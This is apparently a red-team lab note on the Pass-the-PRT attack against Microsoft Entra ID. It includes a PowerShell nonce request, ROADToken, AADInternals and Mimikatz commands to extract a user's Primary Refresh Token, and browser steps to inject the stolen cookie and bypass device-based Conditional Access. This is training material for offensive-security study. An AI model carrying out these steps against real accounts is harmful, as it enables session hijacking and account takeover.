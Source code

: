 - if we have access to a PRT, it's possible to request access tokens for any application.
- Chrome uses BrowserCore.exe to use PRT and request PRT cookie for SSO experience. 
- This PRT cookie `x-ms-RefreshTokenCredential` can be used in a browser to access any application as the user whose PRT we have. 

## Extracting PRT
- Entra ID makes use of nonce for request validation. We need to request a nonce to extract PRT:
```powershell
$TenantID = '.....'
$URL = "https://login.microsoftonline.com/$TenantID/oauth2/token"

$Params = @{
	"URI" = $URL
	"Method" = "Post"
}

$Body =@{
	"grant_type" = "srv_challenge"
}

$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
```

- we can extract PRT by using the below tools in a session on the target Entra ID user:
	- RoadToken - `C:\AZAD\Tools\ROADToken.exe <nonce>`
	- AADInternals - `Get-AADIntUserPRTToken`
- we could also use Mimikatz or it's variants to extract the PRT and other secrets (session and clear keys)
- Please note in the lab we are using SessionExecCommand to run ROADToken in context of the user Michael Barron: `https://gitlab.com/KevinJClark/csharptoolbox/-/blob/master/SessionExecCommand.cs`

Once we have the PRT cookie, copy the value from previous command and use it with Chrome web browser:
- Open the Browser in Incognito mode
- Go to `http://login.microsoftonline.com/login.srf`
- Press F12(Developer tools) -> Application -> Cookies
- Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for  `http://login.microsoftonline.com/login.srf` and set its value to that retrieved from AADInternals
- Mark HTTPOnly and Secure for the cookie
- Visit  `http://login.microsoftonline.com/login.srf` again we will get access as the user
- note that a location based Conditional Access Policy would block Pass-thePRT whereas a "require compliant and/or Entra joined device" policy is bypassed. 